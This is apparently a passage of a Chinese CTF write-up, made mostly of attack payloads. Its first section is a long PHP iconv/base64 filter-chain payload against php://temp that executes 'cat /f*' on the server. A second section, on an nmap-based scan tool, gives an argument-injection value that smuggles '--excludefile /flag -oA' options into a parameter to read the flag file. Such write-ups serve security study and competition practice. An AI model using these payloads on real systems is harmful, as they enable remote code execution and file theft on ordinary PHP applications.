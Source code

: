 ```
decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|co
nvert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-
16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-
decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR
|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-
932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-
decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-
16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-
932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-
decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-
decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-
decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-
156.JOHAB|convert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|conver
t.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|co
nvert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-
932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-
decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-
decode/resource=php://temp&0=cat%20/f*
#此步来源于https://www.cnblogs.com/mumuhhh/articles/17860683.html
```

### scan\_tool

nmap这个工具在网鼎杯里出现过

[BUUCTF \[网鼎杯 2020 朱雀组\] Nmap\_\[网鼎杯 2020 朱雀组\]nmap-CSDN博客](https://blog.csdn.net/weixin_44037296/article/details/110893526)

不过这里过滤的更严格，无法直接写入php一句话木马

```
传入参数：' --excludefile /flag -oA aaa '
```
